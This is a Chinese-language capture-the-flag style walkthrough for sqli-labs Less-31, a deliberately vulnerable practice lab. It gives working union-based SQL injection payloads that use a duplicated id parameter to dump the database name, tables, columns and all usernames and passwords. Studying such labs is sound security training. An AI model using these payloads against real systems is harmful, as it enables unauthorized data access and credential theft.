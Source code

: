 ```yaml
---
title: Less - 31
date: 2023-03-16T23:32:31Z
lastmod: 2023-03-17T12:09:14Z
---
```


# Less - 31

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.225.132/sqli-labs/Less-31/login.php?id=1&id=2'
http://192.168.225.132/sqli-labs/Less-31/login.php?id=1&id=2"
```

​![image](assets/image-20230317120137-x95z0bb.png)​

​![image](assets/image-20230317120201-da7juxq.png)​根据错误信息判断闭合方式为")–+，并且为字符型注入

---

## 2、查看当前库

---

```http
http://192.168.225.132/sqli-labs/Less-31/login.php?id=1&id=0") union select 1,2,database()--+
```

​![image](assets/image-20230317120351-royhr3j.png)​

---

## 3、查看security库下的所有表

---

```http
http://192.168.225.132/sqli-labs/Less-31/login.php?id=1&id=0") union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')--+
```

​![image](assets/image-20230317120653-kuhgnmt.png)​

---

## 4、查看users表下的所有字段

---

```http
http://192.168.225.132/sqli-labs/Less-31/login.php?id=1&id=0") union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users')--+
```

​![image](assets/image-20230317120741-nqoas0k.png)​

---

## 5、查看username,password字段的所有值

---

```http
http://192.168.225.132/sqli-labs/Less-31/login.php?id=1&id=0") union select 1,2,(select group_concat(concat_ws('~',username,password)) from security.users)--+
```

​![image](assets/image-20230317120903-27mg3qd.png)​

‍
